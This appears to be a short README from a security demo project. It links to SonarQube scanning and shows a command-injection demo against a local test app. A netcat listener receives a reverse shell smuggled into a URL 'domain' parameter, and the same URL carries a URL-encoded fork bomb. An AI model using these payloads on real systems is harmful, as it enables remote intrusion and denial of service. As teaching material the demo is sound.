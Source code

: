 # Code Security 

## Code scanning

- [Sonarqube](sonarqube/README.md)

## Remote Code execution with Reverse Shell

```bash
# Locally
nc -lvp 8888
#/usr/local/bin/docker exec -it <container-id> nc -lvp 8888

# In any browser
http://goto-demo.localtest.me:8000/?domain=www.google.com; nc localhost 8888 -e sh%0a
fork() {%0a
    fork | fork %26%0a
}%0a
fork%0a
```
